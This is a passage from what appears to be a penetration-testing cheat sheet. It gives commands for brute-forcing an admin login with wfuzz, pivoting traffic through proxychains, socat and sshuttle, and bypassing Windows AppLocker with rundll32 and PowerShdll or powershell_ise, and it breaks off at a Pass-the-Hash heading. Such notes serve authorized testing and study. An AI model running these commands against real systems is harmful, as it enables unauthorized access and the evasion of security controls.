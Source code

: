 ```wfuzz --hc 404 -c -z list,admin -z file,/root/Documents/SecLists/Passwords/korelogic-password.txt -d "user=FUZZ&password=FUZ2Z" http://192.168.30.161/admin/index.php```
Configure `proxychains.conf`:

<pre> socks4 	192.168.1.206 1234 </pre>

<pre>proxychains socat TCP-LISTEN:8081,fork,reuseaddr TCP:192.168.48.158:8080</pre>

This command ahead makes Burp (which is listening on the NATed machine) accessible from 192.168.1.69 on port 8081

Now, configure the Proxy in the browser:

![proxyconf](https://user-images.githubusercontent.com/7115563/49870450-aae88900-fe13-11e8-8c95-4208f20cd8ec.png)

All the traffic is logged on the NATed machine Burp.

Reference: https://github.com/p3nt4/Invoke-SocksProxy

<a name="poor"></a><h3> Man's Poor VPN </h3>

Traffic forward over SSH without needing to ```ssh -D <port>```

<pre>sshuttle -vr user@192.168.207.57 1X0.1X.0.0/16</pre>

![sshuttle](https://user-images.githubusercontent.com/7115563/42047219-02a13b70-7b00-11e8-9686-8bf2f44bee81.png)

Proof:

![mantis2](https://user-images.githubusercontent.com/7115563/34785499-a0e7d838-f631-11e7-869f-d6fcdc1051e9.png)

Reference: http://teohm.com/blog/using-sshuttle-in-daily-work/



<a name="windowsad"></a><h2> Windows AD Environment </h2>

<a name="applocker"></a><h3> Bypass Applocker </h3>

<b>1. rundll32</b>

```rundll32.exe PowerShdll.dll,main```

![applocker](https://user-images.githubusercontent.com/7115563/34455568-dfe7d7c6-ed81-11e7-9869-de2d4e92f3aa.png)
  
  Reference: https://github.com/p3nt4/PowerShdll
  
<b>2. Alternative powershell files</b>

![applocker2](https://user-images.githubusercontent.com/7115563/34455569-e0136c6a-ed81-11e7-9b0e-127ae9d395e0.png)
  
  ```C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell_ise```
  
  
 <a name="pth"></a> <h3> Pass The Hash </h3>
  
  
  <b> Invoke a command Remotely </b>
  
```